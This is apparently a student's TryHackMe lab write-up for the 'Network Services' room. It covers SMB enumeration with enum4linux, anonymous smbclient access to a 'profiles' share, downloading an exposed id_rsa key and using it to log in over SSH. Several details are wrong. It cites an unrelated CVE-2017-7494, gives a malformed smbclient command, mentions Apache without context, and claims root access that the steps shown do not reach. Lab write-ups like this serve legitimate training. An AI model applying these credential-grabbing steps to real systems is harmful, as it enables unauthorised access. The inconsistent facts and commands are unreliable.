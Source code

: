 # TryHackMe Documentation: Cyber Defense 

## 1. Introduction
- **Purpose**: Document my experience and share knowledge on the Cyber Defense challenge.
- **Scope**:  Learn the fundamental components of detecting and responding to threats in a corporate environment.

## 2. Setup
- **Environment**: Kali Linux via VirtualBox
- **Accounts and Access**: Created a TryHackMe account and accessed the room via OpenVPN.

## 3. Challenge Walkthrough

### 3.1 Room Name: Network Services
- **Objective**: Learn about, then enumerate, and exploit a variety of network services and misconfigurations.

### 3.2 Enumeration
- **Initial Scanning**:
  - **Tools and Commands**: 
	- Enum4linux 
	- `enum4linux -U 10.10.242.131`
	- `enum4linux -a 10.10.242.131`
  - **Findings**:
	- Learned that users are: administrator, guest, krbtgt, domain admins, root, bin, none. 
	- No password 
	- Workgroup name is WORKGROUP
	- Name of machine is polosmb
	- OS running on version 6.1
	- SMB port is running on ports 139 and 445 
	- Ports that are open:
		22/tcp  open  ssh
		139/tcp open  netbios-ssn
		445/tcp open  microsoft-ds
	- Users profiles is shared in the SMB with the sharename 'profiles'

### 3.3 Exploitation
- **Vulnerability Identification**: CVE-2017-7494 
  - **Techniques Used**:  exploiting anonymous SMB share access- a common misconfiguration that can allow us to gain information that will lead to a shell.

- **Exploitation Process**:
  - **Commands and Payloads**: 
  - **Screenshots**: ![Exploitation Step]
	- Enter to access smb smbclient //10.10.242.131/ Anonymous -U profiles
	- Press Enter on Password
	- Enter ls -a to show files and hidden files

- Type get “Working From Home Information” to download to your download           folder
- Enter ‘cat Working From Home Information.txt’ to view the text file in your 












- Type open .ssh to access directory
- To download type get id_rsa

	- Type chmod 600 id_rsa to change the permissions

	







- Type ssh cactus@10.10.242.131 -i id_rsa to access the server

	- Type ls  to show files then cat smb.txt to view text file


## 4. Analysis and Reflection
- **Challenges Faced**: Difficulty in identifying the exact version of Apache.
- **Learnings**: Importance of thorough enumeration.
- **Improvements**: Try alternative enumeration techniques earlier.

## 5. Conclusion
- **Summary**: Successfully gained root access and captured the flag

## 6. References
- [TryHackMe](https://tryhackme.com)
- [Nmap Documentation](https://nmap.org/book/man.html)


